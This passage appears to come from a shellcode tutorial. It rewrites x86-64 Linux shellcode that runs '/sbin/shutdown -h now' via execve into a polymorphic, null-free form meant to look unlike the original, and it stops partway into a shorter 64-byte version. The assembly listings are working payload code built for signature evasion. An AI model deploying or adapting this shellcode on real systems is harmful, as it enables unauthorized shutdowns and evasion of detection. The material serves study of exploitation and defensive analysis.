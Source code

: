 ```asm
        push r8
        mov rdi, rsp

        push rdx
        push rbx
        push rcx
        push rdi
        mov rsi, rsp

        add rax, 59
        syscall
```
To apply polymorphism, first thing that's going to be done is to remove from the stack the command string. It will be stored into `.text` section and accessed by Rel Addressing. For that, a variable is created for each parameter of the command, and a NULL appended to the end of each string. To append the NULLs, **RDX** is used to avoid NULLs. and hence why it's initialized to `0x00` with the `cdq`. To use the `cdq` to make **RDX** "0", **RAX** needs to be greater or equal to "0", and that's why the syscall number assignment to **RAX** has been moved to the start.
This changes completelly the code, that does not look like the original:
```asm
global _start
section .text
_start:

        jmp real_start
        command: db "///sbin/shutdown "
        arg1   : db "-h "
        arg2   : db "now "

real_start:

        push 59                         ; Syscall Number moved here
        pop rax
        cdq                             ; RDX <- 0x00 as RAX >= 0

        lea rbx, [rel arg2]             ; Rel Addr
        mov [rbx + 3], byte dl

        lea rcx, [rel arg1]             ; Rel Addr
        mov [rcx + 2], byte dl

        lea rdi, [rel command]          ; Rel Addr
        mov [rdi+16], byte dl

        push rdx
        push rbx
        push rcx
        push rdi
        mov rsi, rsp

        syscall
```
That's not all as the shellcode size can be reduced. Let's avoid the use of so many `lea` to reference, as they use opcodes that increase the size of the shellcode, substracting memory positions to the **RBX** register to point the parameters memory position. Also, the code is reordered to place the `push`es just after getting memory position for each parameter, making the code look very different from the original one and even shorter with 64 bytes for the 65 bytes from the original:
```asm
global _start
section .text

_start:

        jmp real_start
```